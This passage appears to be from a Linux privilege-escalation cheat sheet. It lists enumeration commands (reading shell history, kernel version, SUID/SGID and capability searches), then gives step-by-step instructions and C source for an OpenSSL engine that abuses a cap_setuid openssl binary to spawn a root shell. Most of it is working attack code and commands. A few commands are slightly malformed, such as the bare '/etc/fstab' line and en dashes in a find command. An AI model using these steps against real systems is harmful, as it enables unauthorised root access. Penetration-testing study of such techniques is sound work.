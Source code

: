 #### Review bash\_history for entered commands might reveal something useful

```
root@kali:cat ~/.bash_history
```

#### Viewing the type of linux distribution and kernel version

```
root@kali:cat /proc/version
root@kali:cat /etc/issue
```

#### Viewing file system structure

```
root@kali: /etc/fstab
```

#### Searching for binaries with SUID / SGID bit set

The set user ID (SETUID, or SUID) and set group ID (GUID) bits tell Linux that the executable file they are set for should be run as the owner of the file, not as the user who launched it.

```
root@kali:find / -perm –u=s –type f 2>/dev/null

root@kali:find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

#### Listing capabilities for binaries for further exploitation

```
getcap -r / 2>/dev/null
```

Then you can use GTfobins website to learn the exploitation method. `Example:cap_setuid capability and library load feature in OpenSSL` if the output of the above commands was similar to the below

```
usr/bin/openssl = cap_setuid+ep
```

Then we can perform the below steps: `step 1`

```
sudo apt-get install libssl-dev
```

`step 2` Copy the below code to a new file

```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

